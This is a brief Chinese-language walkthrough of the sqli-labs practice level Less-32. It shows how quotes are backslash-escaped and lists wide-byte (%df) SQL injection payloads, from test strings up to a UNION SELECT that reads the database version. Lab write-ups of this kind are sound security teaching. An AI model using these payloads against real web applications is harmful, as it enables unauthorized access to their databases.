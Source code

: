 
![](img/less-29.1.png)

## Less-32

+ 输入 id=1'  被转义成了： 1\'    (315c27) 

+ 输入 id=1”  被转义成了：1\"  (315c22)

![](img/less-32.1.png)

+ 输入：
```bash
?id=2%df'   #页面回显报错， 通过报错信息 可知 
闭合方式：  ‘  单引号   字符型注入、
```
+ 测试Payload: 
```bash
  ?id=2%df' --+    # 发现页面很和谐 
 ?id=2%df' union select 1,2,3 --+          # 发现页面很和谐
```
+ 注入Payload: 
```bash
?id=-2%df' union select 1,2,3 --+
?id=2%df'and 1=2 union select 1,2,3 --+

?id=2%df'and 1=2 union select 1,version(),3 --+
``` 
